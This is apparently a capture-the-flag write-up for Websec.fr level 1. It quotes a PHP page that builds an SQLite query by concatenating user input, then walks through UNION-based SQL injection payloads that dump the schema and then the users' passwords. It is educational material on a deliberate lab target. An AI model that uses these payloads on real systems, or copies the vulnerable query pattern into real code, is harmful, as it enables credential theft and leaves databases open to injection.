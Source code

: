 ```yaml
---
title: Websec.fr level 1 - baby steps
date: April 11, 2024 11:00:00
author: Elad
categories: [Write-ups]
tags: [Websec.fr]
---
```


# The level
![image](https://github.com/eladyesh/Anti_Virus/assets/102996033/4fa7221e-d261-4cdb-8d9f-bd816d2a92c2)
![image](https://github.com/eladyesh/Anti_Virus/assets/102996033/b75c5333-2532-42d2-89a4-85ff040dd635)


source code:
```php
<?php
session_start ();

ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

include 'anti_csrf.php';

init_token ();

class LevelOne {
    public function doQuery($injection) {
        $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);
        
        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query($query);
        $users = $getUsers->fetchArray(SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}

if (isset ($_POST['submit']) && isset ($_POST['user_id'])) {
    check_and_refresh_token();

    $lo = new LevelOne ();
    $userDetails = $lo->doQuery ($_POST['user_id']);
}
?>
```

so we can see that the query 
```php
$query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
```

selects id, username from users where id is something. Great!<br>
we want to [UNION](https://www.w3schools.com/sql/sql_union.asp) another query that will take a password, or something that can give us the flag. Let's check the sql scheme from [sqlite_master](https://renenyffenegger.ch/notes/development/databases/SQLite/internals/schema-objects/sqlite_master/index)

```sql
1, UNION SELECT 1,sql FROM sqlite_master
```
(Remember, the union sql has to be the same amount of columns as the first sql query)

![image](https://github.com/eladyesh/Anti_Virus/assets/102996033/59e9aac3-1716-4e08-846a-83162828b9dd)

Look ! we have a password field, lets try to get that

```sql
1 UNION SELECT id, password FROM users WHERE id=1
```
so that complete sql query is 
```sql
SELECT id, username FROM users WHERE id=1 
UNION 
SELECT 1, password FROM users WHERE id=1 LIMIT 1;
```
![image](https://github.com/eladyesh/Anti_Virus/assets/102996033/5da83c7a-7ace-48e4-a34c-41f3a8149c6a)

Got it !
Thanks for reading


